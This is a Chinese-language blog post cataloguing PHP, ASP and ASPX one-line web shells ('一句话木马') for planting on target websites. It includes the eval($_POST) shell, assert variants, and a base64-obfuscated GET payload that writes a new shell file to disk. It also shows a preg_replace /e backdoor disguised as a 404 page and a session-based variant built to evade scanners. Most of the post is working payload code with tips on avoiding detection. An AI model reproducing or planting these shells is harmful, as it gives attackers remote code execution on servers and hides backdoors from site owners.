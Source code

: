﻿---
layout:     post
title:      PHP一句话木马整理
subtitle:   
date:       2019-04-03
author:     BY
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - 漏洞
---

>如果我们通过客户端向服务器发送被执行内容，那么就会让服务器执行我们发送的脚本，挂马就实现了。想尽办法给目标网站插入这么一段会被储存起来的语句。可以是一个单独的脚本文件文件（.asp 、.php、.aspx ），或者是隐藏在某些网页下的文件、代码等。其中的value 就是客户端要发送的内容，然后通过客户端与服务器建立连接，发送控制脚本。

##PHP 
PHP有一些危险的使用方式比如**eval**、**assert**和正则匹配的**e模式**以及**include**函数
```PHP
<?php @eval($_POST['pass']);?>
```
通过构建php表单pass，执行里面的语句
```PHP
 < ?php assert ($_POST(value));?>
```
bool assert ( mixed $assertion [, Throwable $exception ] )
assert() 会检查指定的 assertion 并在结果为 FALSE 时采取适当的行动。
如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

  
###变形
来自[https://my.oschina.net/programs/blog/1649544](https://my.oschina.net/programs/blog/1649544)
```PHP
<?php $_GET['a']($_POST['b'])?>

?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};
```
通过对GET请求的URL构造而形成利用，左括号和右括号是URL编码，解码回来如下：  
```PHP
?a=assert&b=${fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x))};
```
PHP接收到GET请求后相当于执行一个assert函数，并把b作为assert的参数。b里面使用略php的base64解码函数，把部分信息通过base64编码而绕过扫描，解码后如下：
```PHP
?a=assert&b=${fputs(fopen(c.php,w),<?php @eval($_POST[c]); ?>1)};
```
###利用e模式
正则表达式中的/e模式的作用是将替换串中的内容当作代码来执行，/e模式是php语言才有的，除此之外还有/i（不区分大小写）等。比如：
```PHP
$precision = 2;
$subject = '看完《php从入门到精通》需要33.123456小时';
$str = preg_replace('/([\d|\.]+)/e', 'round($1, '.$precision.')', $subject);
echo $str;
//运行结果为：看完《php从入门到精通》需要33.12小时。即：33.123456被替换为round(33.123456, $precision)。
```
其中$1表示第一次匹配成功的部分。 
可以利用这个写到404页面。
```PHP
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
	<head>
		<title>404 Not Found</title>
	</head>
	<body>
		<h1>Not Found</h1>
		<p>The requested URL was not found on this server.</p>
	</body>
</html>
<?php
	@preg_replace("/[pageerror]/e",$_POST['error'],"saft");
	header('HTTP/1.1 404 Not Found');
?>
```
###利用session
利用$_SEESION变量来绕过扫描，将$_POST['code']赋值给$_SESSION['theCode']，然后eval执行SESSION的内容。eis分别为eis三种模式，e仍然为执行模式。  
```PHP
<?php

    session_start();
    $_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
    $_SESSION['theCode'] && preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');

```
##其他

```PHP
/*asp一句话木马*/
<%execute(request("value"))%>

/*aspx一句话木马*/
<%@ Page Language="Jscript"%>
<%eval(Request.Item["value"])%>

```